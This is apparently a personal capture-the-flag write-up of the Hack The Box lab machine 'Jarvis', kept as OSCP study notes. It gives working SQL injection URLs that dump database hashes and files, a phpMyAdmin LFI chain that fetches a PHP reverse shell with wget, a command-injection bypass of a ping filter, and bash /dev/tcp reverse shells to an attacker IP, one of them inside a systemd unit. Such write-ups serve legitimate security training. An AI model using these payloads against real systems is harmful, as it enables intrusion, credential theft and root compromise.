

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/jarvis-medium
---

# ✅ Jarvis (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** SQL Injection, LFI

**System Vulnerable:** 10.10.10.143

**Vulnerability Explanation:** The machine is vulnerable to SQL Injection which could allow us to query arbitrary data from databases and get credential to login on phpMyadmin. On phpMyadmin version is vulnerable to LFI which could allow us to execute command and gain initial access.

**Privilege Escalation Vulnerability:** Misconfigure privilege permission

**Vulnerability Fix:** Sanitize user input and least privilege

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.143
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-22 10:45 EST
Nmap scan report for 10.10.10.143
Host is up (0.041s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80 Apache httpd 2.4.25

Going through port 80, we just see a webpage. Viewing the source code but nothing is interesting.

.png>)

Let run the gobuster to check if there any hidden directory as well as Nikto.

```
└─$ gobuster dir -u http://10.10.10.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.143
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/11/22 10:48:22 Starting gobuster in directory enumeration mode
===============================================================
/nav.php              (Status: 200) [Size: 1333]
/footer.php           (Status: 200) [Size: 2237]
/index.php            (Status: 200) [Size: 23628]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.143/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.143/js/] 
/images               (Status: 301) [Size: 313] [--> http://10.10.10.143/images/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.143/fonts/] 
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.10.143/phpmyadmin/]
/connection.php       (Status: 200) [Size: 0]                                        
/room.php             (Status: 302) [Size: 3024] [--> index.php]                     
/sass                 (Status: 301) [Size: 311] [--> http://10.10.10.143/sass/]      
/server-status        (Status: 403) [Size: 300]                                      
                                                                                     
===============================================================
2021/11/22 10:57:59 Finished
===============================================================
```

```
└─$ nikto -h http://10.10.10.143
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2021-11-22 10:56:38 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'ironwaf' found, with contents: 2.0.3
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7863 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-11-22 11:03:20 (GMT-5) (402 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

By click all the buttons on the webpage, there is only **/room.php** not static.

.png>)

### SQL Injection (Mysql)

Once I have added ' to the end, it doesn't show anything.

.png>)

I have tried UNION SELECT 1 but still the same. After adding from 1,2,3 to 7 it's just display.

```
http://10.10.10.143/room.php?cod=10 UNION SELECT 1,2,3,4,5,6,7;-- -
```

.png>)

Likely it's vulnerable to SQL Injection. By Comparing the parameter below, if it doesn't return to the original page, which mean something wrong. If it returns back to original page, which mean it vulnerable to SQL Injection.

```
http://10.10.10.143/room.php?cod=1 UNION SELECT 1,2,3,4,5,6,7;-- -
```

We can assume SQL query like

```
select id, room, rating, description, price, details, book from where cod=1
```

.png>)

As we can see the the Cost is in parameter 3. We can replace for testing.

```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1","2","3","4","5","6","7"
```

.png>)

```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1","2","Testing","4","5","6","7"
```

.png>)

We can refer to MySQL Cheat Sheet of [PentestMonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet).

```
/room.php?cod=10+UNION+SELECT+"1",(select+@@version),"3","4","5","6","7"
```

.png>)

## Exploitation

### SQL Injection

Listing the DBs with group\_concat() function will put all the value of different into one field.


```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1",group_concat(schema_name),"3","4","5","6","7" from information_schema.schemata
```


.png>)


```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1",(select schema_name from INFORMATION_SCHEMA.SCHEMATA LIMIT 1),"3","4","5","6","7"
```


.png>)


```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1",(select schema_name from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),"3","4","5","6","7"
```


.png>)


```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1",(select schema_name from INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1),"3","4","5","6","7"
```


.png>)


```
http://10.10.10.143/room.php?cod=10 UNION SELECT "1",(select group_concat(schema_name) from INFORMATION_SCHEMA.SCHEMATA ),"3","4","5","6","7"
```


.png>)


```
GET /room.php?cod=10 UNION SELECT "1",(select group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") from INFORMATION_SCHEMA.columns where table_schema = 'hotel'),"3","4","5","6","7"
```


.png>)

Checking on other databases.


```
/room.php?cod=10 UNION SELECT "1",(select group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") from INFORMATION_SCHEMA.columns where table_schema = 'mysql'),"3","4","5","6","7"
```


.png>)


```
GET /room.php?cod=10 UNION SELECT "1",(select group_concat(host,":",user,":",password, "\r\n") from mysql.user),"3","4","5","6","7"
```


.png>)

Now we have seen the username and password. Let save hash to a file and crack it if it's weak.

```
DBadmin: 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

We can use hashcat to crack the hash.

```
└─$ hashcat --example-hashes | grep -i mysql -B1 -A2
MODE: 200
TYPE: MySQL323
HASH: 7196759210defdc0
PASS: hashcat
--
MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
PASS: hashcat
--
MODE: 7401
TYPE: MySQL $A$ (sha256crypt)
HASH: $mysql$A$005*F9CC98CE08892924F50A213B6BC571A2C11778C5*625479393559393965414D45316477456B484F41316E64484742577A2E3162785353526B7554584647562F
PASS: hashcat

--
MODE: 11200
TYPE: MySQL CRAM (SHA1)
HASH: $mysqlna$2576670568531371763643101056213751754328*5e4be686a3149a12847caa9898247dcc05739601
PASS: hashcat
```

```
└─$ hashcat -m 300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
```

Let try to login with credential that we got. **It worked !**

.png>)

.png>)

### SQL Load File

We can use function to load the files. We can load the **room.php** file to check source code.

```
GET /room.php?cod=10 UNION SELECT "1",(To_base64(LOAD_FILE("/var/www/html/room.php"))),"3","4","5","6","7" HTTP/1.1
```

.png>)

Save the base64 code into a file and decode it back.

```
└─$ touch room.php.bs64
└─$ cat room.php.bs64 | base64 -d > room.php

<?php
error_reporting(0);
if($_GET['cod']){
   include("connection.php");
    include("roomobj.php");
    $result=$connection->query("select * from room where cod=".$_GET['cod']);
    $line=mysqli_fetch_array($result);
    $room=new Room();
    $room->cod=$line['cod'];
    $room->name=$line['name'];
    $room->price=$line['price'];
    $room->star=$line['star'];
    $room->image=$line['image'];
    $room->mini=$line['mini'];
    $room->descrip=$line['descrip'];
  }
else{
  header("Location:index.php");
  }

?>
```

Seem like the code connect to database via connection.php file.

```
GET /room.php?cod=10 UNION SELECT "1",(To_base64(LOAD_FILE("/var/www/html/connection.php"))),"3","4","5","6","7" HTTP/1.1
```

.png>)

Let save the base64 code and decode it back on bash.

```
└─$ touch connection.php.bs64
└─$ cat connection.php.bs64 | base64 -d > connection.php
└─$ cat connection.php                                                                                                                                                                  130 ⨯
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>

```

### Shell as www-data

Let enumerate on the phpadmin to figure out the version. Notice that it run on **phpMyAdmin 4.8.0**. Searching for public exploit of the version.

[https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/)

```
└─$ searchsploit phpMyAdmin 4.8  
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
phpMyAdmin 4.8 - Cross-Site Request Forgery                                                                                                                 | php/webapps/46982.txt
phpMyAdmin 4.8.0 < 4.8.0-1 - Cross-Site Request Forgery                                                                                                     | php/webapps/44496.html
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                                 | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                                 | php/webapps/44928.txt
phpMyAdmin 4.8.4 - 'AllowArbitraryServer' Arbitrary File Read                                                                                               | php/webapps/46041.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

On exploit **44928.txt**, it match with the blog post as It's vulnerable to LFI.

```
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```

.png>)

So let start the exploit process. Go to SQL to inject sql query.

```
SELECT '<php phpinfo(); ?>'
```

.png>)

Then, go to _Storage > Cookies > phpMyAdmin > Copy the value_.

.png>)

```
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_0e7q6i633bthabfvspum92k547i6fv2f
```

.png>)

Let grab php reverse shell, change the IP and port. Then start HTTP Server.

.png>)

```
python -m SimpleHTTPServer
```

Let execute the sql query once again but this time we inject the download script.

```
SELECT '<?php exec("wget http://10.10.14.31/shell.php -O /var/www/html/shell.php"); ?>
```

.png>)

Let perform LFI once again to execute our sql query.

```
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_0e7q6i633bthabfvspum92k547i6fv2f
```

```
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.143 - - [23/Nov/2021 11:45:24] "GET /shell.php HTTP/1.1" 200 -
10.10.10.143 - - [23/Nov/2021 11:45:24] "GET /shell.php HTTP/1.1" 200 -
10.10.10.143 - - [23/Nov/2021 11:45:24] "GET /shell.php HTTP/1.1" 200 -
```

Let start our netcat listener on port 4444 and go to execute the **shell.php** file.

```
└─$ nc -lvp 4444 

http://10.10.10.143/shell.php
```

.png>)

## Privilege Escalation

### Shell as pepper

We are now on the machine, but we don't have permission to read the flag file.

```
www-data@jarvis:/home/pepper$ cat user.txt 
cat: user.txt: Permission denied
www-data@jarvis:/home/pepper$ ls -l
total 8
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
```

Let check if there is any misconfigure on **sudo -l**.&#x20;

```
www-data@jarvis:/home/pepper$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

### Auto script python

```
www-data@jarvis:/var/www/html$ python /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

There are 3 functions we can use, Statistics, List the attackers IP, Ping an Attacker IP.

We can input IP with Ping function and its going to execute the command ping. There is filter which special character that forbidden. But we can use **$(command)** function to execute.

```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Let create a bash reverse shell into a file **/tmp/shell.sh.** Start our netcat on port 5555.

```
www-data@jarvis:/$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.31/5555 0>&1' > /tmp/shell.sh
www-data@jarvis:/$ chmod +x shell.sh
```

```
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/shell.sh)

```

.png>)

```
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/bin/bash)
pepper@jarvis:/tmp$ 
```

### Shell as root

Find the misconfigure of SUID.

```
pepper@jarvis:/tmp$ find / -type f -perm -4000 -ls 2>/dev/null
find / -type f -perm -4000 -ls 2>/dev/null
  1310951     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
  1310809     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
  1310906     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
  1312201    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
  1310810     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
  1310807     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su
  1444734     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp
  1441873     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd
  1441872     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd
  1441870     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh
  1453559    140 -rwsr-xr-x   1 root     root       140944 Jun  5  2017 /usr/bin/sudo
  1441869     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn
  1574579     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  1707587    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
  1578698     44 -rwsr-xr--   1 root     messagebus    42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

### &#x20;**/bin/systemctl**

Going through [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), we can perform privilege escalation by **/bin/systemctl**.

We can create a file with **.service** extension.

```
pepper@jarvis:/tmp$ cat root.service 
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.31/6666 0>&1'
[Install]
WantedBy=multi-user.target
```

Let start our netcat listener on port 6666.

```
nc -lvp 6666
```

We cannot link the file on /tmp folder. Let move it to /home folder to link.

```
pepper@jarvis:/tmp$ systemctl link /tmp/file.service 
Failed to link unit: No such file or directory
pepper@jarvis:/tmp$ systemctl link /home/pepper/root.service
Created symlink /etc/systemd/system/root.service -> /home/pepper/root.service.
pepper@jarvis:~$ systemctl enable --now /home/pepper/root.service
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /home/pepper/root.service.
```

.png>)
